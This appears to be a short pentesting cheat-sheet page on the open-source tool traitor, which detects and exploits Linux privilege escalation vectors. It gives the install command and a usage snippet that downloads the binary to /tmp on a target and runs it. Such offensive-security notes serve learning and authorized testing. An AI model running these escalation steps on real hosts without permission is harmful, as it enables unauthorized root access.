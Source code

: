 # Privilege Escalation Using traitor

<div class="row row-cols-lg-2"><div>

[traitor](https://github.com/liamg/traitor) <small>(6.6k ⭐, 2022 ☠️)</small> is an open-source tool to automatically detect common privilege escalation vectors and exploit them.

It's written in [GO](/programming-languages/high-level/others/go/index.md) which you need to install to download the tool.

```shell!
$ CGO_ENABLED=0 go install github.com/liamg/traitor/cmd/traitor@latest
```

The tool is available at `/home/<username>/go/bin/traitor`. It can be uploaded and executed on any host without having them install GO.
</div><div>

To find vulnerable escalation vectors:

```shell!
$ wget [...] -O /tmp/traitor
$ /tmp/traitor
$ /tmp/traitor -p   # if the password is known
```
</div></div>